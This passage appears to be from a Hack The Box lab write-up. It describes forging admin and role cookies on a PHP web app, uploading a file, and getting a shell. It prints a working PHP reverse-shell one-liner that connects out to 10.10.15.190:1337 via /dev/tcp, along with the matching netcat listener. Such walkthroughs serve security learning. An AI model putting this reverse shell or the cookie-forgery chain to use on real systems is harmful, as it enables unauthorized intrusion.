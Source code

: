 I went up to 20 manually, but I'm sure there is a way to enumerate via burp script to see other options.
With the Access ID and Burp Suite maybe we can forge the cookies to make it look like we are the admin.
My first attempt seemed to work out just fine. changing the user cookie to the admin's Access ID and the role to admin (I'm more confident that the access ID is what mattered here but made it in.(future Anthony here, the role cookie did matter.))

![](https://i.imgur.com/nguDUux.png)

This allows us now to look at the file upload page. Time we drop our payload.

---

## Exploitation

![](https://i.imgur.com/shrWdcj.png)


Now that we are in position to exploit a vulnerability, let's take a step back and confirm what we know so we can better search for an exploit.
- This is an Ubuntu machine.
- Running a PHP web app.
- We can easily forge cookies to appear as the admin.

After some research, trial and error, and a day or two later I stumbled upon this [gist](https://gist.github.com/rshipp/eee36684db07d234c1cc). This gave me a super easy one line php reverse shell.

``` php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.190/1337 0>&1'");

```

Now let's give this a try.
1. `nc -l -p 1337`
2. Create the PHP file
3. Forge the cookies
4. Upload files
5. Navigate to the file (with forged cookies).

And just like that, we're in.

![](https://i.imgur.com/ofJ6KNn.png)


---

## Post-Exploitation

I'm not proud of it, but i used the find command to locate the correct file with credentials given the pattern provided by HTB. It may have taken me a little while to find the correct file.
![](https://i.imgur.com/ROousO0.png)
